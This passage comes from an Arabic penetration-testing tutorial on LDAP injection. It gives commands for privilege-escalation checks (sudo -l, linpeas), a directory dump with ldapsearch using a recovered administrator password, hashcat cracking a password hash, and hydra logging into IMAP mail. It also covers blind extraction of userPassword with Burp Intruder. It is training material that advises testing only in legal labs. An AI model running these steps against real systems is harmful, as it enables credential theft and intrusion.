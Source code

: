        ```
       sudo -l
       ./linpeas.sh
       ```
     - استخدم `ldapsearch` إذا كان لديك وصول إلى LDAP:
       ```
       ldapsearch -x -H ldap://target_ip -D "cn=administrator,dc=domain,dc=com" -w MYKE -b "dc=domain,dc=com" "(objectClass=*)"
       ```

- **النتيجة المتوقعة**:
  - تسجيل الدخول بـ `administrator:MYKE` يعيد رمز 302 ولوحة تحكم.
  - Hashcat يكسر `{SHA}2cM6...` إلى `MYKE`.
  - Hydra تؤكد نجاح `MYKE` في IMAP، مما يمنح وصولًا إلى البريد.
  - التصفح يكشف عن قائمة مستخدمين في `/admin/users`.
  - `ldapsearch` يستخرج كائنات إضافية (مثل `user1`, `guest`).
- **الأوامر/الإجراءات**:
  - في Burp Suite، أرسل طلب تسجيل الدخول.
  - شغّل Hashcat لحل الهاش:
    ```
    hashcat -m 100 hash.txt /path/to/rockyou.txt
    ```
  - استخدم Hydra لاختبار IMAP:
    ```
    hydra -l administrator@domain.com -p MYKE imap://mail.domain.com
    ```
  - تصفح النظام أو شغّل `ldapsearch` لتوسيع الهجوم.

---

## نصائح عامة لتطبيق الأمثلة
1. **اختبار يدوي أولاً**:
   - استخدم Burp Suite Repeater لاختبار المدخلات يدويًا قبل الأتمتة.
   - مثال: اختبر `username=*` لتأكيد LDAP Injection.
2. **استخدام Burp Intruder للأتمتة الجزئية**:
   - في الخطوات 2 و3، استخدم Intruder لاختبار قوائم أحرف أو خصائص.
   - مثال: اضبط الموضع إلى `userPassword=§A§*` مع قائمة `A-Z`.
3. **ضبط شروط النجاح**:
   - حدد شرط النجاح بدقة (مثل نص "Result found" أو رمز 200).
   - مثال: في السكربت، استبدل `"Result found"` بنص الاستجابة الفعلي.
4. **إدارة الأخطاء**:
   - أضف معالجة الأخطاء في السكربتات:
     ```python
     try:
         r = requests.get(url + payload)
     except requests.exceptions.RequestException as e:
         print(f"Error: {e}")
         continue
     ```
5. **الأمان**:
   - اختبر فقط في بيئات قانونية (مثل TryHackMe أو مواقع مرخصة).
   - تجنب إرسال طلبات مكثفة قد تؤثر على الموقع.

---